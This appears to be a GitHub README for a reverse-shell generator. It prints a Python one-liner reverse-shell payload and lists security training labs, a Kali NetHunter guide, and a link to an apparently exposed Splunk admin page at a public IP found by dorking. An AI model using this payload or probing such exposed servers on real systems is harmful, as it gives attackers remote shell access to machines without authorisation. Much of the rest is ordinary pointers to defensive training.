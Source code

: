 # Reverse-Shell-Generator

<div align="center">
</div>

![3](https://media.giphy.com/media/v1.Y2lkPTc5MGI3NjExb2RmbnpoZ2Y5c3MxdnU1ajk5ZGU5MDN3YzNhaHR4Z3o2ZGN6aGVucCZlcD12MV9pbnRlcm5hbF9naWZfYnlfaWQmY3Q9Zw/fdOA43sHFE6Pu/giphy.gif)

</div>

## Link
```
https://devvj-1.github.io/Reverse-Shell-Generator/
```

## 🔧 Linux  Troubleshooting commands 
```
https://chatgpt.com/share/74ea2fe2-6b6d-400e-bfee-1a434763a162
```

## Python payload 
```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("0.0.0.0",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

![Screenshot 2024-06-08 015037](https://github.com/DevVj-1/Reverse-Shell-Generator/assets/106962581/13b0947b-d1bd-43af-bb1b-b9a2fc6063e2)

## Setup rootless kali Nethunter on Android

https://youtu.be/fqaSEbaYkJQ?si=b8u3mB2aq8Y4C9Hk

Some how i discovered a cyber security course hands-on cloud labs. so i share it here too! with you guys :)
(Just randomly discovered links while Google dorking)

## Splunk labs

""

👏🏻 I really grateful and appreciative to the creator of this course (Sam Boney, Sir) for creating this cloud hands-on labs and other informative content. 💡

In exchange for what we learn from this resource. We should subscribe ❤️ to his YouTube channel (https://www.youtube.com/channel/UCC2OBhIt1sHE4odV05RYP1w)

""
* all Splunk labs: https://samsclass.info/50/50_S19.shtml#quiz

* Boss of the SOC v1: Threat Hunting with Splunk:
  https://samsclass.info/50/proj/botsv1.htm
* Proj 1x: BOSS OF THE SOC: Finding Attack Servers:
  https://samsclass.info/50/proj/p1xbots.htm
* Random splunk server: http://172.218.49.49:8000/en-US/manager/search/adddatamethods/selectsource?input_mode=0
  
## other labs

* https://attack.samsclass.info/

## CBL
* https://samsclass.info/129S/proj/CBL.htm

## CNIT
* https://samsclass.info/129S/proj/p10token.htm

## Top 10 Soc analyst hands on labs.

link:https://youtu.be/G5sCK6IU3nU?si=r9Br6pag8HZeiUGK

## Sandbox for Malware forensics !

![any_run4_Forensics](https://github.com/user-attachments/assets/9d7d3729-a16f-4214-8803-6b87a1ff3f1d)

ANY. RUN is a service that allows cybersecurity specialists to detect, analyze, and monitor cybersecurity threats. It is the interactive online malware analysis sandbox, where the user controls the flow of the analysis.

```
https://app.any.run/
```

